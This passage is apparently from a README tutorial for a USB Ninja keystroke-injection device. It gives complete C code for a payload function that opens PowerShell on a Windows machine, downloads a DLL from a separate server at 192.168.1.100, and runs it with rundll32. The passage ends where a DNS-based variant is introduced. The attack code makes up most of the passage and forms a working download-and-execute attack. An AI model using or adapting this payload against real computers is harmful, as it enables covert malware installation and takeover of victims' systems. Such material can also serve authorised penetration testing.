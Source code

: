 We need to include NinjaKeyboard header file:

```c
#include <NinjaKeyboard.h>
```

Function `setup` and `loop` can be left empty (these functions are used for "run on connect" payloads):

```c
void setup() {
}

void loop() {
}
```

As an example we will use DownloadFile PowerShell command:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://192.168.1.100:8081/https.dll", "C:\Users\Public\Documents\https.dll")
```

Full payloadA() function:

```c
void payloadA() {
    // Initiate keyboard
    USBninjaOnline();
    NinjaKeyboard.begin();
    NinjaKeyboard.delay(1000);
    // Send HID '0' to compatibility Win7
    NinjaKeyboard.sendKeyStroke(0);
    NinjaKeyboard.delay(1000);
    // WIN + R
    NinjaKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    NinjaKeyboard.delay(100);
    // Start PowerShell
    NinjaKeyboard.print(F("powershell.exe"));
    NinjaKeyboard.delay(100);
    // ENTER
    NinjaKeyboard.sendKeyStroke(KEY_ENTER);
    NinjaKeyboard.delay(500);
    // Download, execute payload and exit powershell
    NinjaKeyboard.println(F("(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.1.100:8081/https.dll\", \"C:\\Users\\Public\\Documents\\https.dll\"); rundll32 C:\\Users\\Public\\Documents\\https.dll,Start; exit"));
    NinjaKeyboard.delay(100);
    // Stop and remove keyboard
    NinjaKeyboard.end();
    USBninjaOffline();
}
```

Same functionality but with different download location will be used for DNS payload:
